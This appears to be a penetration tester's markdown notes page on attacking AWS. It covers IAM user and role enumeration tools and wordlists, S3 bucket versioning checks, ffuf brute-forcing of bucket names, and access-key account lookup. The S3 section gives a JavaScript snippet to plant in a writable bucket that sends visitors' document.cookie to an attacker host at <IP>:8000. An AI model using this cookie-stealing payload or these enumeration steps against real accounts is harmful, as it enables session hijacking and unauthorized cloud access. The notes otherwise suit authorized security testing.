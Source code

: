 ```yaml
---
title: AWS Notes 
weight: 40
menu:
  notes:
    name: AWS Notes
    identifier: notes-cloud-aws-info
    parent: notes-cloud-aws
    weight: 20
---
```



{{< note title="IAM">}}

Enumerate for valid users and rols in the AWS Account 
- Tool URL: https://github.com/dievus/AWeSomeUserFinder
- Helpful Wordlists for Users and Roles
  - https://github.com/RhinoSecurityLabs/pacu/blob/master/pacu/modules/iam__enum_users/default-word-list.txt
  - https://github.com/RhinoSecurityLabs/pacu/blob/master/pacu/modules/iam__enum_roles/default-word-list.txt


{{< /note >}}


<!-- Condition -->
{{< note title="S3 Buckets">}}

Check for Writable S3 Buckets
- If you can upload, then you can show impact by changing JS to steal cookies and other things.
  ```
  var xhr=new XMLHttpRequest();
  xhr.open("GET", "http://<IP>:8000/?"+document.cookie, true);
  xhr.send();
  ```

Check for Bucket Versioning
```
curl -I https://<BUCKETNAME>.s3.<REGION>.amazonaws.com //Look for x-amz-version-id
aws s3api list-object-versions --bucket <BUCKETNAME> --query "Versions[?VersionId!='null']" --no-sign-request
```


Brute Force Bucket Names (assuming patterns are found)
```
ffuf -u 'https://bucket-FUZZ.s3.amazonaws.com' -w fuzzingBucketWordlist.txt
```
{{< /note >}}

{{< note title="Odds and ends that sometimes help">}}
Check for AWS Account Number 
```
aws sts get-access-key-info --access-key <AKIA Key>
```

{{< /note >}}
